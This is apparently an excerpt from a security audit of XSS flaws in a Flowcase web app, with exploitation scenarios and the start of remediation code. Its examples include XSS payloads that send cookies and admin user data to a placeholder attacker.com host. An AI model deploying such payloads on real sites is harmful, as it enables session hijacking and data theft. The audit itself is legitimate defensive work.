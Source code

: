 **Exploitation Scenarios:**

1. **URL Parameter XSS:**
```javascript
// Malicious URL
https://flowcase.example.com/droplet/123?message=<img src=x onerror=alert('XSS')>

// Executes when page loads
document.getElementById('status-message').innerHTML = "<img src=x onerror=alert('XSS')>";
```

2. **API Response XSS:**
```javascript
// Malicious API response
{
    "name": "<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>",
    "description": "<img src=x onerror='fetch(\"/api/admin/users\").then(r=>r.text()).then(d=>fetch(\"http://attacker.com/data\",{method:\"POST\",body:d}))'>"
}
```

3. **WebSocket Message XSS:**
```javascript
// Malicious WebSocket message
{
    "type": "status_update",
    "message": "<svg onload=alert('XSS')></svg>"
}
```

**Impact:** Client-side code execution, session hijacking, keylogging, credential theft, admin actions

**Remediation:**
```javascript
// Secure DOM manipulation utilities
class SecureDOMUtils {
    static escapeHtml(text) {
        const div = document.createElement('div');
        div.textContent = text;
        return div.innerHTML;
    }
    
    static setTextContent(elementId, text) {
        const element = document.getElementById(elementId);
        if (element) {
            element.textContent = text; // Safe text assignment
        }
    }
    
    static createSecureElement(tagName, textContent, attributes = {}) {
        const element = document.createElement(tagName);
        element.textContent = textContent; // Safe text assignment
        
        // Safely set attributes
        for (const [key, value] of Object.entries(attributes)) {
            if (this.isAllowedAttribute(key)) {
                element.setAttribute(key, this.escapeHtml(value));
            }
        }
        
        return element;
    }
    
    static isAllowedAttribute(attr) {
        const allowedAttributes = ['class', 'id', 'data-*', 'aria-*'];
```